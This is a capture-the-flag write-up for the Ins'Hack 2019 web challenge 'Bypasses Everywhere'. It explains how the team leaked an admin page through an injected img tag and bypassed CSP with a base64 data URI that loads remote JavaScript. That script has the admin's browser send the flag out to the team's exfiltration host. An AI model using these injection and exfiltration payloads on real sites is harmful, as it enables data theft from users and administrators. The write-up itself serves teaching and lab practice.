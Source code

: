 ```yaml
---
layout: post
title:  "Ins'Hack 2019 - Bypasses Everywhere"
date:   2019-05-07 13:37
categories: [InsHack2019]
tags: [Web]
author: jbz
---
```


The challenge description was minimal:
```
I’m selling very valuable stuff for a reasonable amount of money (for me 
at least). Go check it out!

https://bypasses-everywhere.ctf.insecurity-insa.fr
```

### TL;DR ###

This writeup is about our uninteded solution of a very cool Web 
challenge by [Hugo DELVAL](https://twitter.com/HugoDelval).
The intended solution was about triggering an XSS and bypass the CSP via 
a JSONP endpoint on www.google.com.
Our solution abused the `data:[<mediatype>][;base64],<data>` URIs to get 
JavaScript execution.
The intended solution can be found 
[here](https://github.com/InsecurityAsso/inshack-2019/blob/master/bypasses-everywhere/writeup.md) 
and 
[here](https://corb3nik.github.io/blog/ins-hack-2019/bypasses-everywhere).

### Recon ###

The target website was basically made of 2 pages:
 - `/article` where you can view articles and you have a bunch of XSSes
 - `/admin` where you can send a link to the admin and you have an XSS 
when the link is visited

The various pages were protected with a pretty strict `CSP`:
```
Content-Security-Policy: script-src www.google.com; img-src *; 
default-src 'none'; style-src 'unsafe-inline'
```

### Admin's browser ###

By sending a simple HTTP link to the admin you're able to notice that 
his browser is `HeadlessChrome/73`, meaning we have to deal no only with 
the `CSP`, but also with the `XSS-Auditor`.

```
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, 
like Gecko) HeadlessChrome/73.0.3683.75 Safari/537.36
```

### Leaking admin's page ###

In the admin page there was the following text, just after the url 
`input` field:
```
I'm usually connecting to this page using http://127.0.0.1:8080, so I'm 
pretty sure this page is safe :)
```
So we thought we had a way to leak somehow the content of that page, 
without breaking the `CSP` and triggering the `XSS-Auditor`.

Finally we managed to do it by injecting a new `<img>` tag with as 
source our domain, followed by the page's content.

We basically sent as URL to the admin:
`http://127.0.0.1:8080/admin?url=c"><img src='https://exfil.jbz.team/a`

The browser was so nice to close the `src` attribute once he found the 
`'` in the `I'm usualy ...` text and sent us the page's content in the 
request's path, which after some beautifying resulted in:

```
from flask import request, render_template
from flask_csp.csp import csp_header
import requests
import re

with open("flag.txt") as f:
    FLAG = f.read()
def _local_access() -> bool:
    if request.referrer is not None and not 
re.match(r"^http://127\.0\.0\.1(:/d+)?/", request.referrer):
        return False
    return request.remote_addr == "127.0.0.1"
def routes(app, csp):
    @csp_header(csp)
    @app.route("/admin")
    def adm():
        url = request.args.get("picture")
        if _local_access():
            with open(__file__) as f:
                code = f.read()
        else:
            code = None
        return render_template("admin.html", url=url, code=code)
    @csp_header(csp)
    @app.route("/article", methods = ["POST"])
    def secret():
        try:
            assert _local_access()
            data = request.get_json(force=True)
            assert data["secret"] == "No one will never ever access this 
beauty"
            requests.post(data["url"], data={
                "flg": FLAG,
            }, timeout=2)
            return "yeah!"
        except Exception as e:
            app.logger.error(e)
            return
```

### Bypassing ~~everything~~ and getting the ~~FLAG~~ ###

The leaked code is pretty trivial, what is needed to do to get the flag 
is:
 - Sending a `POST` request to `/article` with a specific `secret` and 
the `url` where we will receive the `flag`
 - The requeste must be sent by the `admin` as his IP is `127.0.0.1`
 - If a referrer is set it must be `127.0.0.1[:port]`
 
After some brainstorming we realized that the solution was as easy as 
submitting a [data 
URI](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URIs) 
to the admin.

We've build a `data` URI which injected some `JavaScript` in a blank 
page and submitted the required request without a referrer and finally 
we received the ~~flag~~.

**Data URI**
```
data:text/html;base64,PHNjcmlwdD5jb25zb2xlLmxvZygxKTwvc2NyaXB0PjxzY3JpcHQgc3JjPSJodHRwOi8vamJ6LnRlYW06ODA4MC9hLmpzIj48L3NjcmlwdD4=
```

**a.js**
```
x=new XMLHttpRequest();
x.open("POST","http://127.0.0.1:8080/article");
x.setRequestHeader("Content-Type", "application/json");
x.send(JSON.stringify({"secret":"No one will never ever access this 
beauty","url":"http://exfil.jbz.team/"}));
```

We received no `FLAG` and after some debugging we realized that the 
browser was trying to send a `preflight` request as the `Content-Type` 
was set to `application/json`, which was obviously failing as the server 
was not responding with the required `Allowing-*` headers.

### Last but not least bypass and (finally) FLAG ###

How can we send a `json` request without sending a `json` request?

We went back to the source code and noticed the `data = 
request.get_json(force=True)` line, which brought us to [Flask's 
documentation](http://flask.pocoo.org/docs/1.0/api/#flask.Request.get_json):
```
Parse and return the data as JSON. If the mimetype does not indicate 
JSON (application/json, see is_json()), this returns None unless force 
is true.
```

So we can just set as `Content-Type` anything which does not trigger the 
`preflight` mechanism? Let's try!

**new a.js**
```
x=new XMLHttpRequest();
x.open("POST","http://127.0.0.1:8080/article");
x.setRequestHeader("Content-Type", "text/plain");
x.send(JSON.stringify({"secret":"No one will never ever access this 
beauty","url":"http://exfil.jbz.team/"}));
```

And BOOM, we received the `FLAG` via `POST` to 
`https://exfil.jbz.team/`!

`Flag: 
flg=INSA{f330a6678b14df79b05f63040537b384e4c87c87525de8d396b43250988bdfaa}`
